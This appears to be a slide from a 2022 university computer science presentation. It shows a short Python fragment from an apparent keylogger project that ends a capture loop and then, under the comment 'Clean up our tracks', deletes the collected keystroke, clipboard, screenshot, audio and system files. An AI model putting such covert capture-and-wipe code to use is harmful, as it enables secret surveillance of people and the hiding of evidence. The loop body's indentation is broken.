

number_of_iterations += 1
        currentTime = time.time()
        stoppingTime = time.time() + time_iteration

# Clean up our tracks and delete files
delete_files = [system_information, clipboard_information, keys_information, screenshot_information, audio_information]
for file in delete_files:
os.remove(file_merge + file)
11 November 2022
Department of CSE
10